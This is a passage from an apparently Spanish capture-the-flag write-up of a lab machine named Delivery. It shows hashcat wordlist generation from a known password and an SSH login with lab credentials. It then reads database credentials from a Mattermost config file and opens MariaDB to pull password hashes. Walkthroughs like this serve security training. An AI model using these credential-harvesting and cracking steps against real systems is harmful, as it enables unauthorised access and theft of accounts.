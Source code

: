 Nos `creamos` un `archivo` con la contraseña `PleaseSubscribe!` y empleamos `hascat` para `crear` un `diccionario` con `variaciones` de esta `contraseña`

```
# hashcat --stdout password -r /usr/share/hashcat/rules/best64.rule > wordlist.txt
```

## Intrusión

Nos `conectamos` mediante `ssh`

```
# sshpass -p Youve_G0t_Mail! ssh maildeliverer@10.129.171.107   
Linux Delivery 4.19.0-13-amd64 #1 SMP Debian 4.19.160-2 (2020-11-28) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue Jan  5 06:09:50 2021 from 10.10.14.5
maildeliverer@Delivery:~$ whoami
maildeliverer
```

## Privilege Escalation 

En el archivo `config.json` he encontrado `credenciales` para la `base` de `datos`

```
maildeliverer@Delivery:/opt/mattermost/config$ nano config.json
"SqlSettings": {
    "DriverName": "mysql",
    "DataSource": "mmuser:Crack_The_MM_Admin_PW@tcp(127.0.0.1:3306)/mattermost?charset=utf8mb4,utf8\u0026readTimeout=30s\u0026writeTimeout=30s",
    "DataSourceReplicas": [],
    "DataSourceSearchReplicas": [],
    "MaxIdleConns": 20,
    "ConnMaxLifetimeMilliseconds": 3600000,
    "MaxOpenConns": 300,
    "Trace": false,
    "AtRestEncryptKey": "n5uax3d4f919obtsp1pw1k5xetq1enez",
    "QueryTimeout": 30,
    "DisableDatabaseSearch": false
}
```

Nos `conectamos` a la `base` de `datos` con las credenciales `mmuser:Crack_The_MM_Admin_PW` y `obtenemos` varias `credenciales` hasheadas

```
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 129
Server version: 10.3.27-MariaDB-0+deb10u1 Debian 10

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mattermost         |
+--------------------+
```